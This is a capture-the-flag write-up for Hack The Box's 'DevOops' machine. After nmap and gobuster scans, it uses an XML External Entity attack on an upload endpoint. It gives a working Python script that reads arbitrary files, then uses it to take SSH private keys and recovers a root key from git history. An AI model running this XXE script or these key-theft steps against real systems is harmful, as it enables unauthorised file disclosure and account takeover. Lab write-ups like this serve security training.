# [DevOops](https://app.hackthebox.com/machines/devoops)

```bash
nmap -p- --min-rate 10000  10.10.10.91 -Pn
```



After discovering open ports(22,5000), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,5000 10.10.10.91 -Pn
```




Let's do Directory fuzzing for port (5000) on our target.

```bash
gobuster dir -u http://10.10.10.91:5000 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 40
```




On '/**upload**' menu, I see that I can add 'XML' Files into machine.



If there is XML files, it means that XXE attack (XML External Entity) should be happen.

I wrote malicious 'dr4ks.xml' file as below so that we can read '/etc/lsb-release' file content



Let's upload this and see the result.




Hola, it works.

Let's write Automation script that we enter filename into script and it reads for us.

```python
#!/usr/bin/python3

import re
import requests
import sys

if len(sys.argv) < 2:
    print(f"usage: {sys.argv[0]} [path to file]")
    sys.exit()

file_name = sys.argv[1]

xml = f'''<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY dr4ks SYSTEM "file://{file_name}">
]>

<item>
<Author>
&dr4ks;
</Author>
<Subject>Testing</Subject>
<Content>This is a test</Content>
</item>'''

files = {'file': ('xxe.xml', xml, 'text/xml')}
try:
    r = requests.post('http://10.10.10.91:5000/upload', files=files)
    if r.status_code == 200:
        pattern = re.compile(r"Author: \n(.*)\n Subject:", flags=re.DOTALL)
        print(re.search(pattern, r.text).group(1).strip())
        sys.exit()
    else:
        pass
except requests.exceptions.ConnectionError:
    pass
print("[-] Unable to connect. Either site is down or file doesn't exist or can't be read by current user.")
```

Let's execute this script and add filename as input.




I read '/etc/passwd' file to learn usernames of machine.




One of the users is 'roosa', let's try to read private key (id_rsa) of this user.



Let's login via this id_rsa.

```bash
chmod 600 id_rsa
ssh -i id_rsa roosa@10.10.10.91
```

user.txt




For enumeration, I just searched for '.git' folder that I can get last commits of repository.

```bash
find / -type d -name '.git' 2>/dev/null
```


Current status of repository.
```bash
git status
```




Let's look at `git` history.

```bash
git log --name-only --oneline
```




From here, we grab commit id (d387abf) which contains commit that 'authcredentials.key' file is located here.

Let's back to this (d387abf) commit as below.

```bash
git checkout d387abf -- resources/integration/authcredentials.key
```

Now, we can read content of this.




Maybe this is private key (id_rsa) of root user, let's try to login.

```bash
chmod 600 id_rsa
ssh -i id_rsa root@10.10.10.91
```

root.txt

